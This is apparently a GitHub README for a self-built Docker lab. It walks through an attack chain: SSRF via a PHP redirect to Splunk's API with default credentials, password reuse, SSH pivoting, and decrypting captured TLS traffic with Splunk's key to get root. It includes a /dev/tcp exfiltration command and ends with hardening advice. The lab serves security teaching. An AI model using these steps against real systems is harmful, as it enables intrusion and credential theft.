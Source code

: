 # Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I'm always amazed by the level of complexity and detail that goes into some of the machines, so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using purely docker networking as the host always gets assigned as the default gateway on any docker network I define)

The web app is the `SSRF` app written in `node.js` from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u` command which exposes `admin2`'s password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access.png">

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

<img src="images/splunk-access.png">

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients and the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

<img src="images/traffic.png">

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/rootcreds.png">

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.



Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh` so it persists across reboots.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk` Do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.

